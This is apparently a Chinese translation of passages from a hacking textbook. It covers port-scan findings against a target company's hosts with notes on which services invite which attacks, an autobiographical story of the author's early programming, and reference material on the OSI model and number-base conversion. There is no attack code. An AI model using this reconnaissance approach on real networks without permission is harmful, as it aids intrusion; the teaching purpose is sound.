    - **端口 80：HTTP。** HTTP 守护进程表示活跃的网络服务器服务。此端口仅仅是几种服务攻击的开放入口，包括远程命令执行、文件和目录列表、搜索、文件利用、文件系统访问、脚本利用、邮件服务滥用、安全数据利用以及 Web 页面篡改。
    - **端口 110：POP3。** 借助 POP3 和端口 25：SMTP，攻击者可以通过发送邮件炸弹、伪造邮件或简单地窃取网关服务用于互联网邮件传输来滥用邮件服务。
    - **端口 111：Portmap。** 此服务允许 RPC 客户端程序与 RPC 服务器建立远程连接。远程攻击者可以利用此服务轮询主机以发现 RPC 弱点。

显然，该系统是一个 UNIX 服务器，可能是由新手管理员配置的。然而请记住，最近的统计数据声称，所有连接到互联网的网络中，超过 89% 容易受到某种类型的严重渗透攻击。

下一个系统之前被确定为我们目标公司的 Web 服务器。

- **206.0.126.10:21, 23, 80**
    - **端口 80：HTTP。** HTTP 守护进程表示活跃的网络服务器服务。此端口仅仅是几种服务攻击的开放入口，包括远程命令执行、文件和目录列表、搜索、文件利用、文件系统访问、脚本利用、邮件服务滥用、安全数据利用以及 Web 页面篡改。

在之前的发现中，我们还了解到下一个系统是我们的目标邮件服务器。同样，我们将在接下来的章节中运行特定的渗透扫描：

- **206.0.126.11:25, 110**


- **25 端口：SMTP**。利用 SMTP 和 110 端口：POP3，攻击者可以通过发送邮件炸弹、伪造邮件，或简单地窃取网关服务用于互联网邮件传输来滥用邮件服务。

下一个地址引出了一个有趣的问题。不过，一个合理的猜测是，这台机器是某位用户或管理员正在运行个人 Web 服务器守护进程。我们可以推断，虽然第一次扫描明显跳过了 80 端口，但第二次扫描检测到了 **21 端口：FTP** 和 **80 端口：HTTP**，这意味着某些 Web 创作工具可能存在漏洞。

- **206.0.126.30:21, 80**

我们的最后一个系统似乎又是一台完全开放的 UNIX 服务器：

- **206.0.126.89:7, 11, 21, 23, 25, 80, 110, 111**

- **7 端口：Echo**。通信模块；一种传回给发送方的信号，区别于原始信号。将消息回显到主计算机可以测试网络连接。主要的消息生成实用程序是 PING。

- **11 端口：systat**。systat 服务是一个 UNIX 服务器功能，提供远程列出正在运行的进程的能力。利用这些信息，黑客可以挑选并选择哪些攻击最成功。

- **21 端口：FTP**。开放的 FTP 服务横幅可以通过列出服务守护进程版本来协助黑客。根据操作系统和守护进程版本的不同，攻击者可能能够获得对系统的匿名访问权限。

- **23 端口：telnet**。一个通过互联网或网络提供远程计算机访问和管理功能的守护进程。为了更有效地攻击系统，黑客可以利用 telnet 服务提供的信息。

- **25 端口：SMTP**。利用 SMTP 和 110 端口：POP3，攻击者可以通过发送邮件炸弹、伪造邮件，或简单地窃取网关服务用于互联网邮件传输来滥用邮件服务。

- **80 端口：HTTP**。HTTP 守护进程指示有一个活跃的 Web 服务器服务。此端口只是多种服务攻击的开放大门，包括远程命令执行、文件和目录列表、搜索、文件利用、文件系统访问、脚本利用、邮件服务滥用、敏感数据利用以及 Web 页面篡改。

- **110 端口：POP3**。利用 POP3 和 25 端口：SMTP，攻击者可以通过发送邮件炸弹、伪造邮件，或简单地窃取网关服务用于互联网邮件传输来滥用邮件服务。

- **111 端口：Portmap**。此服务允许 RPC 客户端程序与 RPC 服务器建立远程连接。远程攻击者可以利用此服务轮询主机，寻找 RPC 弱点。

我们在目标网络中发现了许多有趣的潜在漏洞，特别是在路由器、UNIX 服务器和某些工作站中。有些网络需要在不同的时间间隔内扫描多次，才能成功发现大部分易受攻击的端口和服务。


对于那些没有服务器可供使用的人来说，本书的 CD 上有一个名为 TigerSim（见图 5.14）的虚拟服务器守护程序模拟器。使用 TigerSim，你可以模拟你选择的网络服务，无论是电子邮件、HTTP Web 页面服务、telnet、FTP 等。这将是你学习如何破解并保护网络时的宝贵辅助工具。第 12 章将提供必要的细节，帮助你充分利用使用 TigerSuite 和虚拟服务器模拟器 TigerSim 的扫描技术。


图 5.14 TigerSim，一种虚拟服务器模拟器。

# 摘要

在本章中，我们研究了在渗透尝试之前最常执行的入侵攻击技术。我们了解到，发现和扫描为大多数成功的入侵攻击提供了战略基础。在继续前进之前，在我们讨论实际的黑客渗透之前，我们必须通过下一章——（黑客技术手册）来巩固我们的互联网技术意识。本章汇集了对形成黑客知识基础至关重要的关键概念。我们在那见……

## 第四部分

*挖掘安全漏洞*

# 第二幕

# 黑客的起源

我依然记得那似乎就发生在昨天，在一个短暂而令人兴奋的片刻。那是 1981 年秋天，正值那些如画般生动美丽的自然景象开始凋零的时节。我还是个男孩，圣诞节马上就要到了。整个夏天我都非常努力地做家务，从不发牢骚抱怨我的家务活。我也特别有礼貌，只为最终能买到我梦想中的越野摩托车。我记得我在圣诞前夜无法入睡；我不断醒来，心跳加速，只为看看时钟——心中充满悬念。

不幸的是，令我失望的是，圣诞早晨，当我跑到前屋时，我发现树下只给我准备了一个小盒子，它太小了装不了一辆摩托车，又太大了装不下一把钥匙、一本用户手册和一张让我去车库找惊喜的字条。但就在纳闷自己为何不配得到一辆摩托车时，我意识到树下还有一个未拆封的惊喜给我。那个盒子包装得如此精确，暗示里面可能有很贵重东西。（我 always 注意到，人们似乎总是花额外的时间和心思去包装昂贵的礼物。）我可以看到这个包裹花了不少时间包装；边缘完美，甚至连胶带碎片都贴得很整齐。我用力撕开这完美的包装，同时注意到盒子有点重量，心里一直琢磨着它到底是什么。在撕掉覆盖在盒子顶部的大片包装纸后，我盯着它，一时间无法聚焦看清它到底是什么。然后我的视线对焦了；它就在那里——一台新电脑。

起初，我不太确定这对我意味着什么。然后突然明白了：我可以用这台机器玩很酷的游戏！（我记得看过广告，广告给了许多孩子希望，说电脑不仅仅是用来学习和上学的，我们还可以玩非常厉害的游戏。我一直是个相当好的学生；对我来说，名列优等生名单并不难。我想说的是，我不费多少力气就拆箱、设置并配置了我的新计算机系统——没有查阅手册，也没有检查那些“请先阅读”的小册子。但当我觉得缺少什么东西时，我会仔细翻阅它们：我有点失望地发现，除了操作系统和一个名为 BASIC 的编程语言外，系统并不包含任何游戏或软件。尽管如此，半小时后，我已经在加载 BASIC，并编程让我的名字以各种模式在屏幕上滚动。我想那就是一切的开始。

几周之后，我意识到我已经达到了我电脑的全部潜力。我正在开发的程序几乎达到了内存容量限制；它包含一个由问题、选项和场景组成的数据数组，以及字符块图形和音频哔声。简而言之，我在地球上编排了一场邪恶领导者与战术敏捷的劣势者之间的世界大战。

场景如下：劣势者最近遭受了一波攻击，导致 90% 的健康年轻士兵变成了绝望的伤亡者。从一开始，劣势者就处于不利地位，因为他们陈旧的工具库无法与邪恶领导者使用的技术战争相提并论。从一开始，他们就没有什么信心；只有希望才将这些年轻男女凝聚在一起，作为士兵去对抗侵略者。

你最好的朋友正在死去；你的武器库空空如也；你已经好几天没吃东西了。在所有的混乱中，那个内心深处——你从小将之深埋的内心声音——再次开口说话，并支配着你的思想。你的视野回溯到你在街区尽头的草原上发现那艘宇宙飞船的时候。如果那真的是一个不明飞行物，正如城市中各地目击并经当地新闻报道所证实的那样……那么，也许船上有一些先进的武器；也许你可以弄清楚如何操作那个东西——只要你记得，当时有一个低频的电磁型嗡嗡声从飞船中发出。你是那个几年前意外发现飞船时，为了寻找木柴作为你们草原堡垒的支撑梁而结下沉默誓言的特殊朋友群体中最后一名士兵。在那一刻，随着似乎沉重的脉搏，恶心感席卷了你，你开始意识到劣势者的命运可能完全掌握在你手中（后来你会明白，操作飞船将取决于你的心智而非你的双手）。无论如何，也许还有最后一线希望……最后一次爆炸“黑屋”并为劣势者赢得战争的机会……

当宣布我是当年科学博览会的获胜者之一时，我感到惊讶。我花了太多时间在开发我的游戏上，完全并且故意忽视了我原本的科学生物项目——我至今都不记得那是什么。在最后一刻，我给老师打了电话，安排了学校电视的时间，并打包了我的电脑作为我在博览会上展示的项目。我的目标有二：我希望把我的编程作为我的项目来蒙混过关，并确保我在博览会上的入选（如果失败，我的成绩将受到致命打击，因为科学博览会项目占总体成绩的三分之一）。我当然从未预料到会被叫到我的名字作为获胜者。结果证明，我的展位比其他所有顶级项目加起来引发的关注还多。每个人都喜欢我的游戏，似乎对编程的复杂性感到惊讶，并认为我一定花了很多时间（他们当然不知道）。

作为对我成功的奖励，我父母允许我交易掉我的电脑，并给我一些现金去获取更专业的计算机系统。从磁带数据存储转移到使用软盘是令人兴奋的（蛋糕上的樱桃是系统实际上支持彩色！）。每个晚上我都花几个小时在新的系统上工作，并熟悉一个不同的操作系统，它拥有更多命令和更多的内存地址空间，用于我的下一个项目，名为《龙之墓》。它证明是开发《巫师》的灵感来源。

在无数个夜晚，在无数的坐标纸上，然后使用像素、线条、圆圈、自定义填充、多个数组、 numerous 变量，以及分布在四个独立模块、四个软盘（后来被定制盗版修改为双盘面）上的 650 页代码（超过 46,000 行代码），结果极其令人满足：

> 多年来，在你那个被遗忘的邻近城市里一直和平相处。索思河的肥沃平原丰产；商业繁荣；而拥有魔法力量球体的统治者睿智且公正。但最近，关于死亡、破坏和酷刑的令人不安的报告传到了你的村庄。根据瑟瑟发抖的商人和疲惫的旅行者的传说，那座被遗忘的城市已被邪恶所充斥。
>
> 在遥远的过去，力量球体被一位强大的牧师召唤。据记载，球体隐藏着宇宙的奥秘，以及统治它的巨大力量。但如果球体有一天落入错误的手中……
>
> 几天前，你加入了一支由最强战士和最睿智魔法使用者组成的沙漠商队。最古老的牧师之一菲里尔已告诉你揭示那个据说守卫球体的可怕城堡的魔法咒语。热量让人难以集中注意力——如果你能仅记得


当……沙尘暴来临时！尖啸的风鞭打着你的身体，将沙粒吹入你的眼睛、嘴巴，甚至你的衣服里。几个小时过去了；你的水迅速减少；你不敢睡觉，生怕会被漂移的沙堆掩埋。

当风暴平息时，你孤身一人。商队在视野中消失无踪。沙漠变得无法辨认，沙丘被吹成了新的图案。你迷路了……

疲惫不堪、浑身酸痛，你挣扎着穿过灼热的沙地，朝那座被遗忘已久的城市前进。你还能及时到达废墟，夺回神奇的权力圣杯吗？烈日当空，使你的伤口僵硬，并加剧了困扰着所有穿越这片无水荒原之人的持续口渴。但仍有希望——那边那些是废墟吗？

在断裂的柱子和碎瓦砾之间，矗立着一座巨大的雕像。这里肯定就是那个地方！你终于找到了。你感激地瘫坐在沙地上。但没有时间可以浪费了。你必须快点。于是，你用颤抖的声音念出了魔法咒语，或者至少是你所记得的版本。然后你等待……

废墟一片寂静，你的后颈开始发麻。起初什么也没发生；然后，从东方升起了一阵风，起初很温柔，但很快变得更强、更狂野，直到它撕裂了你的衣服，几乎把你掀离地面。曾经晴朗的天空被白色和灰色的云团塞满，它们相互碰撞、翻腾。随着云层变厚，白天变成了黑夜。闪电划破天空，紧接着是威胁般的雷声轰鸣。你开始考虑是否应该寻找庇护所，就在这时，突然传来一声刺眼的巨响，一道闪电将雕像化为了尘埃！

片刻的沉默；然后，一道威胁性的火焰从雕像的残骸中升腾而起。它的咆哮声震耳欲聋，它越飞越高，似乎即将触及云层。就在你以为它不能再变大时，它的形状开始变化。边缘膨胀成可怕、清晰且参差不齐的形状；咆哮声减弱了；在你眼前具现出一座巨大的黑暗城堡……

你站在城堡前，沉思着等待你的邪恶。

《巫术》（Sorcery）存在于龙与冒险的领域。你的任务始于一座巨大城堡的入口，该城堡包含多层结构以及超过500个地下城。当你穿过阴森的走廊深入邪恶的深渊时，你将遇到生物、商人、宝藏和陷阱……沉洞、传送门和法杖。

《巫术》还包含随机出现的怪物；你可以选择自己的角色、盔甲和武器，以及各种法术，让每次游戏都有不同的冒险体验。

我早在八十年代初就花了两年时间开发《巫术》。我最初的意图是将我的想法变为现实，然后分发给家人、朋友和其他电脑爱好者。虽然我对开发进行了版权保护，但我从未销售过该产品。现在回想起来，这听起来很熟悉：有人可能偷窃了我的劳动成果吗？无论如何，我那时并不知道，《巫术》的前奏手稿将会改变我未来的轨迹。

再次因为花太多时间做个人项目，而很少花时间集中精力完成学校作业，我又撞上了南墙。又是最后关头，我又一次无视了第二天到期的一项作业：我应该在课堂上做另一个无聊的演讲。然而这一次，主题可以自选。正如你可能推测的那样，我背诵了《巫术》的介绍，但改变了语气，使其听起来像是在推销待售的产品。我手指（可能还有脚趾）交叉祈祷，即兴完成了演讲，希望能得到及格分。

令我惊讶的是，全班同学饶有兴致且越来越专注地听完了演讲。结果是，我获得了班级最高分。但无与论比的奖励还在后面。

那天课后，一位同学小心翼翼地走向我。我之前在课堂上注意到他的神态，认定他是一个安静的、成绩不及格的学生。他头发油腻凌乱，衬衫皱巴巴，总是坐在教室后排，经常因睡觉而受罚。老师们似乎对他感到很失望，在他穿过走廊时也不屑一顾。

当他走近我时，我可以看出他睁大了眼睛，显得不耐烦。我非常记得那天他的问题。他坚持不懈且乐观地询问，我的程序是否真的存在，还是我编造了整个场景只是为了获得更好的成绩。对我来说很明显，他想要一份拷贝。我告诉他事实，并问他是否有一台与我的兼容的计算机。听到这话，他笑了，然后提出用软件交易来换取一份《巫术》的拷贝。无论如何我都会给他一份拷贝，但我认为增加我不断成长的程序收藏也不错。他提供的软件包括一个图形文件转换器和一个通过减少文件头来压缩文件大小的程序。我记得我当时的想法：如果能在不首先修改格式和配色方案的情况下压缩我自己的程序并转换图形，那该多棒。

我们在第二天放学后完成了交易，我急忙回家从磁盘加载软件。图形转换器运行出错，失望之下，我差点在没有尝试文件压缩工具的情况下就丢弃了软盘。然而，那天晚上加载该程序后，令我难以置信的是，它运行得非常顺利。真正引起我注意的是，当我退出程序时收到的弹出信息：它提到了一个计算机爱好者的组织，他们交换软件包，并始终在寻找合格的成员。信息末尾是一个邮政信箱邮寄地址：“snd interest 2:”

我立即抓住了这个潜在的机会。我几乎无法想象一个成员们对技术的兴趣与我一样高，并且彼此交换软件、想法和知识的有组织团体。我写了一封信，并在当天就寄了出去。

仅仅一周过去，我就收到了来自该组织领导人的第一封回复和团体接受请求（*对于那些能从中认出他的人来说，这是一个非常热情的欢迎*）。那一刻，我的人生路径达到了一个新的交叉口，一个将开启令人眼花缭乱的新起点的交叉口

……待续。

# 第 6 章

## 黑客技术手册

《黑客技术手册》包含对于构建黑客知识基础至关重要的核心概念集合。传统上，学习黑客技术需要多年的试错、技术参考吸收和研究时间。本章，连同第 1 至 3 章中给出的入门指南，旨在作为对相同材料的快速参考，并通过复习，可以将学习曲线缩短至读完这本书所需的时间。

本章的每一节都对应于实现黑客教育和知识基础的路径上的一步。涵盖的主题包括网络概念、网络技术、协议和重要命令。下一章将介绍黑客编码基础。

## 网络概念

### 开放系统互连模型

国际标准化组织（ISO）开发了开放系统互连（OSI）模型，以描述数据通信期间执行的功能。认识到组成 OSI 模型的七层（见图 6.1）作为协同工作以实现成功通信的独立实体是重要的。这种方法有助于将网络复杂性划分为可管理的层次，进而允许专业化，使多个供应商能够开发针对特定领域的新产品。这种方法还有助于标准化这些概念，使你可以从一本书中理解所有这些理论，而不是从数百本出版物中。

- **第 7 层：应用层。** 提供用户接口，该层将网络引入应用程序，执行应用程序同步和系统进程。在此层定义的常见服务包括 FTP、SMTP 和 WWW。

- **第 6 层：表现层。** 名如其实，该层负责向第 7 层呈现数据。数据编码、解码、压缩和加密在此层完成，使用 GIF、JPEG、ASCII 和 MPEG 等编码方案。

- **第 5 层：会话层。** 在第 6 层使用的会话建立由该层形成、管理和终止。基本上，该层定义了表现层节点之间的数据协调。在第 2 章中讨论的 Novell 服务访问点（SAP）和 NetBEUI 是在会话层起作用的协议。

- **第 4 层：传输层。** TCP 和 UDP 是在此层起作用的网络协议。因此，该层负责节点之间可靠的、面向连接的通信，并为较高层提供透明数据传输，具有错误恢复功能。

- **第 3 层：网络层。** 路由协议和逻辑网络寻址在 OSI 模型的这一层运行。逻辑寻址的例子包括 IP 和 IPX 地址。在此层定义的路由协议的一个例子是路由信息协议（RIP；稍后讨论）。

- **第 2 层：数据链路层。** 该层提供通过物理层将数据以比特形式在物理网络中可靠传输的功能。该层具有以下两个子层：


- **MAC（媒体访问控制）：** 该子层负责通过 MAC 地址对数据包进行封装，执行错误检测，并定义物理拓扑结构，例如总线型、星型或环型（在第 3 章中定义）。
- **LLC（逻辑链路控制）：** 该子层的主要目标是保持上层协议标准化，使其独立于不同的局域网（LAN）。
- **第 1 层：物理层**。名副其实，物理层负责通过物理传输介质进行位信号的电气和机械传输。物理介质的示例包括网卡（NICs）、屏蔽或非屏蔽布线，以及以太网和令牌环等拓扑结构。


## 线缆类型与传输速率及距离

作为最低层设计规格的一部分，当今网络中使用了多种类型的线缆。目前，3 类和 5 类线（如图 6.2 所示）是局域网中最常见的类型之一。然而，无论线缆类型如何，在设计时注意速度与距离之间的关系至关重要；相关内容见表 6.1。


### 表 6.1 传输速率、接口类型与距离

| 传输速率（bps） | 距离（英尺） |
|---|---|
| 2400 | 200 |
| 4800 | 100 |
| 9600 | 50 |
| 19,200 | 25 |
| 38,400 | 12 |
| 56,000 | 8.6 |

| 接口类型 | 速度（每秒） |
|---|---|
| ISDN PRI | 1.536 MB |
| ISDN BRI | 128 KB |
| T1 | 1.544 MB |
| HSSI | 52 MB |
| OC3 | 155.52 MB |
| OC12 | 622 MB |

| 速度（Mbps） | 线缆类型 | 双工模式（半/全） | 距离（英尺） |
|---|---|---|---|
| 10 | 同轴电缆 | 半双工 | 50 |
| 10 | 3 类线 | 双工 | 328 |
| 10 | 光纤 | 双工 | 6500 |
| 100 | 5 类线 | 双工 | 328 |
| 100 | 光纤 | 半双工 | 1312 |
| 100 | 光纤 | 全双工 | 6500 |

## *十进制、二进制与十六进制转换*

### **十进制**

输入到运行在计算机上的应用程序中的数据通常使用十进制格式。十进制数是我们日常生活中使用的数字，它们不需要有小数点，例如 1、16、18、26 和 30——任何随机数字。


图 6.3 IP 地址示例。

### 二进制

当十进制数字输入到计算机时，系统会将它们转换为二进制格式，即 0 和 1，这基本上对应于电气电荷——带电荷与不带电荷。例如，IP 地址是通过二进制符号进行子网划分和计算的。图 6.3 中显示了一个掩码中包含 24 位二进制位的 IP 地址示例。

第一个八位位组（206）表示 C 类（由互联网分配机构分配）IP 地址范围，其格式为*网络.网络.网络.主机*，标准掩码的二进制表示为 255.255.255.0。这意味着我们在最后一个八位位组中有 8 位用于主机。

由路由器等基础设施设备或软件按照以下方式理解组成最后一个（或第四个）八位位组的 8 位：

| 位： | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 |
|---|---|---|---|---|---|---|---|---|
| 值： | 128 | 64 | 32 | 16 | 8 | 4 | 2 | 1 = 255（254 个可用主机） |

在这个完整的 C 类示例中，我们只有 254 个可用的 IP 地址用于主机；0 和 255 不能用作主机地址，因为网络号是 0，广播地址是 255。

请注意，当某一位被使用时，我们用 1 来表示：

| 3 位： | 1 | 1 | 1 |
|---|---|---|---|
| 值： | 128 | 64 | 32 | 16 | 8 | 4 | 2 | 1 |

当某一位未被使用时，我们用 0 来表示：

| 3 位： | 0 | 0 | 0 | 0 | 0 |
|---|---|---|---|---|---|
| 值： | 128 | 64 | 32 | 16 | 8 | 4 | 2 | 1 |

因此：

| 3 位： | 1 | 1 | 1 | 0 | 0 | 0 | 0 | 0 |
|---|---|---|---|---|---|---|---|---|
| 值： | 128 | 64 | 32 | 16 | 8 | 4 | 2 | 1 |

我们将被使用位的十进制值相加：128 + 64 + 32 = 224。这意味着二进制值 11100000 等于十进制值 224。

| 十进制 | 二进制 |
|---|---|
| 224 | 11100000 |

### 十六进制

十六进制系统是二进制的一种简写形式。路由器等互连设备在制定头部时使用此格式，以便轻松指示令牌环编号、桥接器编号、网络等，从而减少头部大小和传输拥塞。通常，十六进制是从二进制格式推导出来的，而二进制又是从十进制推导出来的。十六进制的设计使得二进制 11100000（十进制=224）中的 8 位仅对应两个十六进制字符，每个字符代表 4 位。

为了澄清这一点，请再次查看 224 的二进制值：

- 11100000

在十六进制中，我们将这个 8 位数字分为 4 位一组：

- 1110 0000

每个 4 位组中的位都有一个十进制值，从左到右依次为：8，然后 4，然后 2，最后一位是 1：

8421   8421
1110   0000

现在我们将每个 4 位组中“开启”的位（即值为 1 的位）相加：

8421 = 8 + 4 + 2 + 0 = 14     8421 = 0 + 0 + 0 + 0 = 0
1110                        0000

在这个例子中，表示每个 4 位组中十六进制字符的十进制值分别是 14 和 0。要将这些转换为实际的十六进制，请使用表 6.2。根据此图表，十进制数 14 和 0（第一个 4 位组为 14，第二个 4 位组为 0）的十六进制转换 = e0。

让我们再看一个例子：我们将十进制数 185 转换为二进制：

Bits:    1      0      1      1      1      0      0      1
Value: 128     64     32     16      8      4      2      1 = 185
185 的二进制：                        10111001  （位如上图所示）

### 表 6.2 十进制到十六进制转换表

| 十进制 | 十六进制 | 十进制 | 十六进制 |
|---|---|---|---|
| 0 | 0 | 8 | 8 |
| 1 | 1 | 9 | 9 |
| 2 | 2 | 10 | a |
| 3 | 3 | 11 | b |
| 4 | 4 | 12 | c |
| 5 | 5 | 13 | d |
| 6 | 6 | 14 | e |
| 7 | 7 | 15 | f |

然后我们将上述指示的二进制数 10111001 转换为十六进制，我们将其分为 4 位一组：

- 1011 1001

每个 4 位组中的位都有一个十进制值，从左到右依次为：8，然后 4，然后 2，最后一位是 1：

- 8 4 2 1  8 4 2 1
- 1 0 1 1  1 0 0 1

现在我们相加每个 4 位组中值为 1 的位：

```
8 4 2 1=8+0+2+1=11		 8 4 2 1=8+0+0+1=9
1 0 1 1		 1 0 0 1
```

使用十六进制图表，十进制数 11 和 9（第一个 4 位组为 11，第二个 4 位组为 9）的十六进制转换 = b9，如下所示：

| 十进制 | 二进制 | 十六进制 |
|---|---|---|
| 185 | 10111001 | b9 |
| 224 | 11100000 | e0 |

为了快速参考，请参见表 6.3 进行十进制、二进制和十六进制转换。

### 表 6.3 十进制、二进制、十六进制转换表

| 十进制 | 二进制 | 十六进制 |
|---|---|---|
| 0 | 0000 | 0 |
| 1 | 0001 | 1 |
| 2 | 0010 | 2 |
| 3 | 0011 | 3 |
| 4 | 0100 | 4 |
| 5 | 0101 | 5 |
| 6 | 0110 | 6 |
| 7 | 0111 | 7 |
| 8 | 1000 | 8 |
| 9 | 1001 | 9 |
| 10 | 1010 | a |
| 11 | 1011 | b |
| 12 | 1100 | c |
| 13 | 1101 | d |
| 14 | 1110 | e |
| 15 | 1111 | f |
| 16 | 0001 0000 | 10 |
| 17 | 0001 0001 | 11 |
| 18 | 0001 0010 | 12 |
| 19 | 0001 0011 | 13 |
| 20 | 0001 0100 | 14 |
| 21 | 0001 0101 | 15 |
| 22 | 0001 0110 | 16 |
| 23 | 0001 0111 | 17 |
| 24 | 0001 1000 | 18 |
| 25 | 0001 1001 | 19 |
| 26 | 0001 1010 | 1a |
| 27 | 0001 1011 | 1b |
| 28 | 0001 1100 | 1c |
| 29 | 0001 1101 | 1d |
| 30 | 0001 1110 | 1e |
| 31 | 0001 1111 | 1f |
| 32 | 0010 0000 | 20 |
| 33 | 0010 0001 | 21 |
| 34 | 0010 0010 | 22 |
| 35 | 0010 0011 | 23 |
| 36 | 0010 0100 | 24 |
| 37 | 0010 0101 | 25 |
| 38 | 0010 0110 | 26 |
| 39 | 0010 0111 | 27 |
| 40 | 0010 1000 | 28 |
| 41 | 0010 1001 | 29 |
| 42 | 0010 1010 | 2a |
| 43 | 0010 1011 | 2b |
| 44 | 0010 1100 | 2c |
| 45 | 0010 1101 | 2d |
| 46 | 0010 1110 | 2e |
| 47 | 0010 1111 | 2f |
| 48 | 0011 0000 | 30 |
| 49 | 0011 0001 | 31 |
| 50 | 0011 0010 | 32 |
| 51 | 0011 0011 | 33 |
| 52 | 0011 0100 | 34 |
| 53 | 0011 0101 | 35 |
| 54 | 0011 0110 | 36 |
| 55 | 0011 0111 | 37 |
| 56 | 0011 1000 | 38 |
| 57 | 0011 1001 | 39 |
| 58 | 0011 1010 | 3a |
| 59 | 0011 1011 | 3b |
| 60 | 0011 1100 | 3c |
| 61 | 0011 1101 | 3d |
| 62 | 0011 1110 | 3e |
| 63 | 0011 1111 | 3f |
| 64 | 0100 0000 | 40 |
| 65 | 0100 0001 | 41 |
| 66 | 0100 0010 | 42 |
| 67 | 0100 0011 | 43 |
| 68 | 0100 0100 | 44 |
| 69 | 0100 0101 | 45 |
| 70 | 0100 0110 | 46 |
| 71 | 0100 0111 | 47 |
| 72 | 0100 1000 | 48 |
| 73 | 0100 1001 | 49 |
| 74 | 0100 1010 | 4a |
| 75 | 0100 1011 | 4b |
| 76 | 0100 1100 | 4c |
| 77 | 0100 1101 | 4d |
| 78 | 0100 1110 | 4e |
| 79 | 0100 1111 | 4f |
| 80 | 0101 0000 | 50 |
| 81 | 0101 0001 | 51 |
| 82 | 0101 0010 | 52 |
| 83 | 0101 0011 | 53 |
| 84 | 0101 0100 | 54 |
| 85 | 0101 0101 | 55 |
| 86 | 0101 0110 | 56 |
| 87 | 0101 0111 | 57 |
| 88 | 0101 1000 | 58 |
| 89 | 0101 1001 | 59 |
| 90 | 0101 1010 | 5a |
| 91 | 0101 1011 | 5b |
| 92 | 0101 1100 | 5c |


93 | 0101 1101 | 5d
94 | 0101 1110 | 5e
95 | 0101 1111 | 5f
96 | 0110 0000 | 60
97 | 0110 0001 | 61
98 | 0110 0010 | 62
99 | 0110 0011 | 63
100 | 0110 0100 | 64
101 | 0110 0101 | 65
102 | 0110 0110 | 66
103 | 0110 0111 | 67
104 | 0110 1000 | 68
105 | 0110 1001 | 69
106 | 0110 1010 | 6a
107 | 0110 1011 | 6b
108 | 0110 1100 | 6c
109 | 0110 1101 | 6d
110 | 0110 1110 | 6e
111 | 0110 1111 | 6f
112 | 0111 0000 | 70
113 | 0111 0001 | 71
114 | 0111 0010 | 72
115 | 0111 0011 | 73
116 | 0111 0100 | 74
117 | 0111 0101 | 75
118 | 0111 0110 | 76
119 | 0111 0111 | 77
120 | 0111 1000 | 78

| | | |
| :--- | :--- | :--- |
| 121 | 0111 1001 | 79 |
| 122 | 0111 1010 | 7a |
| 123 | 0111 1011 | 7b |
| 124 | 0111 1100 | 7c |
| 125 | 0111 1101 | 7d |
| 126 | 0111 1110 | 7e |
| 127 | 0111 1111 | 7f |
| 128 | 1000 0000 | 80 |
| 129 | 1000 0001 | 81 |
| 130 | 1000 0010 | 82 |
| 131 | 1000 0011 | 83 |
| 132 | 1000 0100 | 84 |
| 133 | 1000 0101 | 85 |
| 134 | 1000 0110 | 86 |
| 135 | 1000 0111 | 87 |
| 136 | 1000 1000 | 88 |
| 137 | 1000 1001 | 89 |
| 138 | 1000 1010 | 8a |
| 139 | 1000 1011 | 8b |
| 140 | 1000 1100 | 8c |
| 141 | 1000 1101 | 8d |
| 142 | 1000 1110 | 8e |
| 143 | 1000 1111 | 8f |
| 144 | 1001 0000 | 90 |
| 145 | 1001 0001 | 91 |
| 146 | 1001 0010 | 92 |
| 147 | 1001 0011 | 93 |
| 148 | 1001 0100 | 94 |

| 十进制 | 二进制 | 十六进制 |
| :--- | :--- | :--- |
| 149 | 1001 0101 | 95 |
| 150 | 1001 0110 | 96 |
| 151 | 1001 0111 | 97 |
| 152 | 1001 1000 | 98 |
| 153 | 1001 1001 | 99 |
| 154 | 1001 1010 | 9a |
| 155 | 1001 1011 | 9b |
| 156 | 1001 1100 | 9c |
| 157 | 1001 1101 | 9d |
| 158 | 1001 1110 | 9e |
| 159 | 1001 1111 | 9f |
| 160 | 1010 0000 | a0 |
| 161 | 1010 0001 | a1 |
| 162 | 1010 0010 | a2 |
| 163 | 1010 0011 | a3 |
| 164 | 1010 0100 | a4 |
| 165 | 1010 0101 | a5 |
| 166 | 1010 0110 | a6 |
| 167 | 1010 0111 | a7 |
| 168 | 1010 1000 | a8 |
| 169 | 1010 1001 | a9 |
| 170 | 1010 1010 | aa |
| 171 | 1010 1011 | ab |
| 172 | 1010 1100 | ac |
| 173 | 1010 1101 | ad |
| 174 | 1010 1110 | ae |
| 175 | 1010 1111 | af |
| 176 | 1011 0000 | b0 |

| | | |
| :--- | :--- | :--- |
| 177 | 1011 0001 | b1 |
| 178 | 1011 0010 | b2 |
| 179 | 1011 0011 | b3 |
| 180 | 1011 0100 | b4 |
| 181 | 1011 0101 | b5 |
| 182 | 1011 0110 | b6 |
| 183 | 1011 0111 | b7 |
| 184 | 1011 1000 | b8 |
| 185 | 1011 1001 | b9 |
| 186 | 1011 1010 | ba |
| 187 | 1011 1011 | bb |
| 188 | 1011 1100 | bc |
| 189 | 1011 1101 | bd |
| 190 | 1011 1110 | be |
| 191 | 1011 1111 | bf |
| 192 | 1100 0000 | c0 |
| 193 | 1100 0001 | c1 |
| 194 | 1100 0010 | c2 |
| 195 | 1100 0011 | c3 |
| 196 | 1100 0100 | c4 |
| 197 | 1100 0101 | c5 |
| 198 | 1100 0110 | c6 |
| 199 | 1100 0111 | c7 |
| 200 | 1100 1000 | c8 |
| 201 | 1100 1001 | c9 |
| 202 | 1100 1010 | ca |
| 203 | 1100 1011 | cb |
| 204 | 1100 1100 | cc |

205 | 1100 1101 | cd
206 | 1100 1110 | ce
207 | 1100 1111 | cf
208 | 1101 0000 | d0
209 | 1101 0001 | d1
210 | 1101 0010 | d2
211 | 1101 0011 | d3
212 | 1101 0100 | d4
213 | 1101 0101 | d5
214 | 1101 0110 | d6
215 | 1101 0111 | d7
216 | 1101 1000 | d8
217 | 1101 1001 | d9
218 | 1101 1010 | da
219 | 1101 1011 | db
220 | 1101 1100 | dc
221 | 1101 1101 | dd
222 | 1101 1110 | de
223 | 1101 1111 | df
224 | 1110 0000 | e0
225 | 1110 0001 | e1
226 | 1110 0010 | e2
227 | 1110 0011 | e3
228 | 1110 0100 | e4
229 | 1110 0101 | e5
230 | 1110 0110 | e6
231 | 1110 0111 | e7
232 | 1110 1000 | e8

233 | 1110 1001 | e9
234 | 1110 1010 | ea
235 | 1110 1011 | eb
236 | 1110 1100 | ec
237 | 1110 1101 | ed
238 | 1110 1110 | ee
239 | 1110 1111 | ef
240 | 1111 0000 | f0
241 | 1111 0001 | f1
